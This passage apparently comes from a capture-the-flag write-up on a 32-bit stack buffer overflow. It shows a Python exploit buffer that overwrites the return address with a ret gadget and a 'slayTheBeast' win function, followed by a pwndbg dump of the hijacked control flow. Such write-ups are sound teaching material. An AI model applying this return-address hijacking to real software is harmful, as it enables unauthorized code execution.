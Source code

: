 Here's how our exploit looks now:

```
buf = ""
buf += "A"*42
buf += p32(0x80484cc)       # ret @ __do_global_dtors_aux
buf += p32(0x80485db)       # slayTheBeast()
buf += "B"*(50 - len(buf))
```

If we break at the call to `ret` we can see that it'll jump to `__do_global_dtors_aux`, execute `ret` from there, and return to `slayTheBeast()`:

```
───────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────
 EAX  0x0
 EBX  0x0
 ECX  0xf7780870 (_IO_stdfile_1_lock) ◂— 0x0
 EDX  0x0
 EDI  0xf777f000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
 ESI  0xf777f000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*EBP  0x41414141 ('AAAA')
*ESP  0xff86192c —▸ 0x80484cc (__do_global_dtors_aux+28) ◂— ret
*EIP  0x8048596 (doBattle+155) ◂— ret
─────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────
   0x8048595 <doBattle+154>                leave
 ► 0x8048596 <doBattle+155>                ret             <0x80484cc; __do_global_dtors_aux+28>
    ↓
   0x8048595 <doBattle+154>                leave
 ► 0x8048596 <doBattle+155>                ret             <0x80484cc; __do_global_dtors_aux+28>
    ↓
   0x8048595 <doBattle+154>                leave
 ► 0x8048596 <doBattle+155>                ret             <0x80484cc; __do_global_dtors_aux+28>
    ↓
   0x80484cc <__do_global_dtors_aux+28>    ret
    ↓
   0x80485db <slayTheBeast>                push   ebp
   0x80485dc <slayTheBeast+1>              mov    ebp, esp
   0x80485de <slayTheBeast+3>              sub    esp, 8
   0x80485e1 <slayTheBeast+6>              sub    esp, 0xc
─────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────
00:0000│ esp  0xff86192c —▸ 0x80484cc (__do_global_dtors_aux+28) ◂— ret
01:0004│      0xff861930 —▸ 0x80485db (slayTheBeast) ◂— push   ebp
02:0008│      0xff861934 —▸ 0xff861950 ◂— 0x1
03:000c│      0xff861938 ◂— 0x0
04:0010│      0xff86193c —▸ 0xf75e5637 (__libc_start_main+247) ◂— add    esp, 0x10
05:0014│      0xff861940 —▸ 0xf777f000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
... ↓
07:001c│      0xff861948 ◂— 0x0
```
